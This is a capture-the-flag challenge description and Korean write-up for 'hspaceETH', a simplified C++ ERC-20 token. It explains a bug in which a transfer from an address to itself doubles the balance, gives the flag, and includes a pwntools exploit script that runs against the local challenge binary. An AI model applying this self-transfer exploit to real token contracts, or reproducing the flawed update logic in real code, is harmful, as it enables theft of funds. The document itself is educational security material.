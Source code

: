 # hspaceETH

# Usage
- 2024 5월 #2 Space War

# Spec
- 1 Core

# Concept
- Simple ERC-20 implementation in C++, solidity bug

# Description
- Try to hack my ERC-20 based HSpace Token (HST), which worths about 1 wei per token.

# FLAG
- hspace{this_bug_pattern_really_existed_in_several_ethereum_tokens}

# WriteUp
# 풀이

해당 프로그램은 [ERC-20 protocol](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol)을 간단하게 C++ 상에서 구현한 구현체이다.

Real-world에서 발생한 Ethereum Token 취약점을 모티브로 출제하였다.

```cpp
class ERC20 {
public:
    ERC20();
    ERC20(address user);
    uint32_t balanceOf(address account);
    void approve(address spender, uint32_t amount);
    uint32_t allowance(address owner, address spender);
    void transfer(address to, uint32_t amount);
    void transferFrom(address sender, address recipient, uint32_t amount);
    void check(address account);

private:
    map<address, uint32_t> _balance;
    map<address, map<address, uint32_t>> _allowance;
    uint32_t _totalSupply;

    void _spendAllowance(address owner, address spender, uint32_t value);
    void _mint(address account, uint32_t value);
    void _update(address from, address to, uint32_t value);
};
```

ERC-20에 구현되어 있는 대부분의 method와 field가 구현되어있으며, 유저는 public method들을 json interface를 통해 호출할 수 있다.

실제 ERC-20과는 달리 SafeMath 라이브러리 및 Solidity 0.8.0 이상 버전에 내장된 Integer Overflow 방지가 적용되어있지 않지만, Integer Overflow를 트리거 할 수 없어 무관하다.

또한 Ethereum에서 private key를 통해 Wallet address를 생성할 때 거치는 ECDSA와 Keccak-256 해싱은 단순 sha256으로 대체하였다.

프로그램이 실행되면 user는 16개의 토큰을 가지며, 같은 network상 무작위의 지갑 주소들에 token을 minting한다.

특정 주소가 10,000,000개 이상의 토큰을 보유할 시 flag를 출력해준다.

취약점은 `_update` 함수에 존재한다.

```c++
void ERC20::_update(address from, address to, uint32_t value) {
    uint32_t from_balance = this->_balance[from];
    uint32_t to_balance = this->_balance[to];
    this->_balance[from] = from_balance - value;
    this->_balance[to] += to_balance + value;
}
```

언뜻 보면 안전해보이나, from과 to가 같은 address로 전달된다면 아래와 같은 상황이 벌어진다 (!)

```
- wallet A == from == to
- balanceOf(A) == 16

uint32_t from_balance = this->_balance[from]; // 16
uint32_t to_balance = this->_balance[to]; // 16
this->_balance[from] = from_balance - value; // _balance[A] = 16 - 16
this->_balance[to] += to_balance + value; // _balance[A] = 16 + 16
```

따라서 transferFrom(USER, USER, balanceOf(USER))가 실행될 때 마다 balance는 2배로 증가하고, 이를 이용해 플래그를 획득할 수 있다.

```
from pwn import *

p = process('./hspaceETH')

p.recvuntil(b': ')
p.sendline(b'1234')

balance = 16

while balance < 10000000:
    p.recvuntil(b'Tx : ')
    pay = b'{"method" : "transferFrom", "sender" : %d, "recipient" : %d, "amount": %d}' % (0xf104, 0xf104, balance)
    p.sendline(pay)
    balance *= 2

p.recvuntil(b'Tx : ')
pay = b'{"method" : "balanceOf", "account" : %d}' % (0xf104)
p.sendline(pay)

p.recvuntil(b'Tx : ')
pay = b'{"method" : "check", "account" : %d}' % (0xf104)
p.sendline(pay)

p.interactive()
```